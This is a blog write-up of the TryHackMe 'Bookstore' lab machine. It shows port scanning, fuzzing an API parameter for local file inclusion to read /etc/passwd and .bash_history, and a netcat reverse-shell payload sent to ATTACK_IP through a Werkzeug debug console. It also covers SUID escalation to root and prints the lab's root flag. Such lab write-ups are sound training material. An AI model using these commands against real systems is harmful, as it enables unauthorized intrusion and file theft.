 ```yaml
---
title: "Bookstore TryHackMe"
layout: post
date: 2023-08-06 19:00
tag: 
- TryHackMe
- Pentesting
- Bookstore
- Linux
- Web
- Meduim
- API
image: https://tryhackme-images.s3.amazonaws.com/room-icons/aba19a5cfea503b401f5550cb1004e20.jpeg
headerImage: true
writeups: true
hidden: true # don't count this post in blog pagination
description: "A meduim TryHackMe box, with basic web enumeration and API fuzzing."
category: project
author: johndoe
externalLink: false
---
```


# Summary

A meduim TryHackMe box, with basic web enumeration and API fuzzing.

---

# Namp

```bash
nmap -A -T4 10.10.255.130   
Starting Nmap 7.91 ( https://nmap.org ) at 2023-08-06 13:58 +01
Nmap scan report for 10.10.255.130
Host is up (0.16s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 44:0e:60:ab:1e:86:5b:44:28:51:db:3f:9b:12:21:77 (RSA)
|   256 59:2f:70:76:9f:65:ab:dc:0c:7d:c1:a2:a3:4d:e6:40 (ECDSA)
|_  256 10:9f:0b:dd:d6:4d:c7:7a:3d:ff:52:42:1d:29:6e:ba (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Book Store
5000/tcp open  http    Werkzeug httpd 0.14.1 (Python 3.6.9)
| http-robots.txt: 1 disallowed entry 
|_/api </p> 
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

After accessing the web page in port 80 I found :

![!\[\[Pasted image 20230806140146.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230806140146.png>)

And port 5000 contains the following page :

![!\[\[Pasted image 20230806140127.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230806140127.png>)

![!\[\[Pasted image 20230806140218.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230806140218.png>)

The /api endpoint found in robots.txt gives us information how to use the request to the api :

![!\[\[Pasted image 20230806140255.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230806140255.png>)

In the source code I found an interesting hint for LFI :

![!\[\[Pasted image 20230806142124.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230806142124.png>)

Also in the source code of main.js I found another hint, so it may be an indication that there is a version 1 :

![!\[\[Pasted image 20230806141934.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230806141934.png>)

![!\[\[Pasted image 20230806142329.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230806142329.png>)

So there is actually a v1! Now, let’s fuzz the API (v1) to find a possible parameter that would allow to read arbitrary files :

```bash
wfuzz -w /usr/share/wordlists/dirb/common.txt --hc=404 "http://10.10.255.130:5000/api/v1/resources/books?FUZZ=/etc/passwd"
```

![!\[\[Pasted image 20230806143110.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230806143110.png>)

Found the vulnerable parameter! Now let's read /etc/passwd file :

![!\[\[Pasted image 20230806143244.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230806143244.png>)

Referring to the hint found let's read the user flag :

![!\[\[Pasted image 20230806141934.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230806141934.png>)

![!\[\[Pasted image 20230806143609.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230806143609.png>)

Using **Gobuster** we can see the */console* endpoint :

![!\[\[Pasted image 20230806143805.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230806143805.png>)

Now let's read the .bash_history file as mentioned in the hint to find the PIN for /console :

![!\[\[Pasted image 20230806143531.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230806143531.png>)

PIN : 123-321-135

![!\[\[Pasted image 20230806143932.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230806143932.png>)

The bellow blog from **HackTricks** show us how to exploit that :

[https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug)

Now let's get a revshell :

```bash
__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACK_IP 9999 >/tmp/f').read();
```

![Alt text](<../../../assets/images/HTBPics/Pasted image 20230806144510.png>)

![!\[\[Pasted image 20230806144343.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230806144343.png>)

I am in as sid user!

# PE

I found an interesting file with the SUID bit set :

![!\[\[Pasted image 20230806145653.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230806145653.png>)

I downloaded a copy of the binary and analyzed it in Ghidra. Below is the main() function :

![!\[\[Pasted image 20230806145620.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230806145620.png>)

The program prompts for a number (local_1c), XORs it with `0x1116` and `0x5db3` (local_18) and compares the result with `0x5dcd21f4`. If they match, a root shell will be spawned.

Let’s do the reverse operation to get the correct value that will give us the ability to spawn a root shell:

![!\[\[Pasted image 20230806150722.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230806150722.png>)

# Root flag

<p>root@bookstore:~# id</p>
uid=0(root) gid=1000(sid) groups=1000(sid)
<p>root@bookstore:/root# cat /root/root.txt</p>
e29b05fba5b2a7e69c24a450893158e3

<br/>

# MACHINE PWNED!

<br/>

And that was it, I hope you enjoyed the writeup. If you have any questions you can [Contact Me](https://www.linkedin.com/in/hichamouardi).

<p>Happy Hacking!</p>